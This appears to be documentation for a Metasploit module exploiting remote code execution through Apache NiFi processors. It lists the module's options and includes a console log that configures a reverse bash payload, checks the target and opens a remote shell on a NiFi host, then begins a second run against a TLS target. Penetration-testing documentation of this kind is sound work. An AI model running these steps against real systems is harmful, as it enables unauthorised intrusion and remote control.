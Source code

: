 ## Options

### TARGETURI

The base NiFi API path. Default: `/nifi-api`.

### DELAY

The delay in seconds before stopping and deleting the processor. This is required because the processor may not start immediately after
being created. Default: `5`.

### USERNAME

Username to authenticate with, if necessary. Optional.

### PASSWORD

Password to authenticate with, if necessary. Optional.

### BEARER-TOKEN

JWT authenticate with, if necessary. Optional.

## Scenarios
The first target (Windows 10.0.18363 Pro) does not require authentication, however the second target (Ubuntu Server 20.04.1) does. It can be
seen that it fails the first time, but succeeds after credentials are set. The version of NiFi that was installed on both platforms was
1.12.1.

```
$ msfconsole -q
msf5 exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf5 exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/apache_nifi_processor_rce) > set target 1
target => 1
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rhost 192.168.194.140
rhost => 192.168.194.140
msf5 exploit(multi/http/apache_nifi_processor_rce) > check
[*] 192.168.194.140:8080 - The target appears to be vulnerable.
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Waiting 5 seconds before stopping and deleting
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.140:50008) at 2020-10-03 13:17:58 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/apache_nifi_processor_rce) > set target 0
target => 0
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(multi/http/apache_nifi_processor_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rport 9443
rport => 9443
msf5 exploit(multi/http/apache_nifi_processor_rce) > check
[*] 127.0.0.1:9443 - The service is running, but could not be validated.
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
```
